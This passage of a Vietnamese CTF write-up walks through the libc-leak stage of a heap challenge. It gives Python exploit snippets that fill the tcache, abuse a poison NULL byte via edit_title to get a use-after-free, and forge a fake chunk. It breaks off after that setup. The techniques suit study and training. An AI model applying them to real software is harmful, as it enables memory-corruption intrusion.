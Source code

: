 ### Leak libc
- vì size bị giới hạn đến 0x400 rồi nên muốn vào được unsorted bins ta cần làm đầy tcache với size lớn hớn 0x80 để ko rơi vào fast bins, ta chọn size 0x120

```python 
# làm đầy tcache
size = 0x120
add(1,size,b"aaaa",size,b"bbbb") #a470 #a5a0
add(2,size,b"cccc",size,b"dddd") #a6d0 #a800
add(3,size,b"hlaan",size,b"hlaan") #a930 #aa60
add(4,size,b"a",size,b"a") #ab90 #acc0

delete(1)
delete(2)
delete(3)
delete(4)
```

![image](https://github.com/gookoosss/CTF/assets/128712571/3f4b278e-def0-4301-a344-6b18a819af11)


- đến đây ta nghĩ tạo 1 note size 0x50 để lấy thằng 0x559e6489a300 và 0x559e6489ab80 ra sau đó print ra là có libc :))) , nhưng mà khoan đã đâu có dễ vậy được

```python 
add(1,0x50,b'aaaa',0x50,b'b') #a300 #ab90
```

![image](https://github.com/gookoosss/CTF/assets/128712571/f70379fe-af1a-4e74-9516-6211a27ea702)


- vì hàm strcpy sẽ tạo thêm null byte ở cuối , khi ta print sẽ bị dừng tại null byte khiến ta ko thể leak được toàn bộ libc mà chỉ leak được 1 byte 'b'
- vậy lúc này thg strcpy là trở ngại của mk, thế làm sao để leak libc mà không phải đi qua hàm strcpy => nhảy số ra cách tạo fake chunk 

![image](https://github.com/gookoosss/CTF/assets/128712571/f970bbc9-e7f8-4055-ba91-16d94df74c7c)


- để ý thì thằng 0x55c2d8fc7350 đang lưu địa chỉ content của note 1, ta cần thay nó thành 1 địa chỉ khác chứa heap nên ta sẽ chọn nó làm fake chunk , nên cần set thêm size cho nó là 0x61
- lợi dụng edit_title idx = 0 để poison NULL byte 0x000055c2d8fc7360 thành 0x000055c2d8fc7300, sau đó free idx = 0
- mà 0x000055c2d8fc7300 đang là title của của idx 1 nên ta có lỗi UAF tại đây

```python 
add(1,0x50,b'aaaa',0x50,b'b') #a300 #ab90
edit_title(0,b'a'*0x50) #a2a0 #poison NULL
edit_content(1,0x100,b'AAAA') #adf0
delete(0) # UAF
payload = b'A'*0x48 + p64(0x61) # set size 0x61 to a350
edit_title(1,payload) #a300
```
![image](https://github.com/gookoosss/CTF/assets/128712571/4bf9dc30-462f-488a-b592-9698f73237d9)

